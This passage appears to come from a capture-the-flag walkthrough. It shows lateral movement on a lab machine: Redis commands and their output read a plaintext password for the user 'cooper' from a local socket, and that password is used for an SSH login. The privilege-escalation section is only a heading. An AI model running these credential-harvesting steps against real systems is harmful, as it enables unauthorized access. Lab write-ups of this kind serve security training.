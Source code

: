 ## Lateral Movement

### `www-data` → `cooper` 🚩

#### Exploitation

1. We can use `redis-cli` to connect to the Redis database:
    
    ```bash
    redis-cli -s /var/run/redis/redis.sock
    ```
2. The password for the user `cooper` can be found in plain text in the database:
    
    ```
    redis /var/run/redis/redis.sock> info
    ...
    # Keyspace
    db0:keys=2,expires=0,avg_ttl=0
    ```
    ```
    redis /var/run/redis/redis.sock> select 0
    OK
    ```
    ```
    redis /var/run/redis/redis.sock> keys *
    1) "cooper.dooper:sites"
    2) "cooper.dooper"
    ```
    ```
    redis /var/run/redis/redis.sock> type cooper.dooper
    hash
    ```
    ```
    redis /var/run/redis/redis.sock> hkeys cooper.dooper
    1) "username"
    2) "password"
    3) "first-name"
    4) "last-name"
    5) "pro"
    ```
    ```
    redis /var/run/redis/redis.sock> hget cooper.dooper password
    "zooperdoopercooper"
    ```
3. With the password `zooperdoopercooper` we can log in via SSH as `cooper`. 🚩

## Privilege Escalation

### `cooper` → `root` 🏁
